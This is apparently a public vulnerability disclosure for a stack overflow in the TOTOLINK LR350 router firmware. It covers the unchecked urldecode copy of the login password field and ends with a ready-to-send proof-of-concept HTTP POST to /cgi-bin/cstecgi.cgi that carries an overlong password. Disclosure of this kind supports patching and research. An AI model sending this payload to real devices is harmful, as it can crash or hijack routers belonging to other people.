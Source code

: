 # TOTOLINK LR350 V9.3.5u.6369_B20220309 Stack Overflow

### Product Information

Product: TOTOLINK LR350 Firmware Version: V9.3.5u.6369_B20220309 Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

### Analysis

`V7 ` retrieves the value from the ` password ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.

![image-20240508121257780](https://github.com/s4ndw1ch136/IOT-vuln-reports/edit/main/totolink%20LR350/image-20240508121257780.png)

As shown in the two images below, in the function`urldecode` , the processed (`password`) is written to a buffer  located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240508121926199](/image-20240508121926199.png)

![image-20240508121953884](/image-20240508121953884.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.147.140
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 449
Origin: http://192.168.147.140
Connection: close
Referer: http://192.168.147.140/login.html

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

![image-20240508122545258](/image-20240508122545258.png)
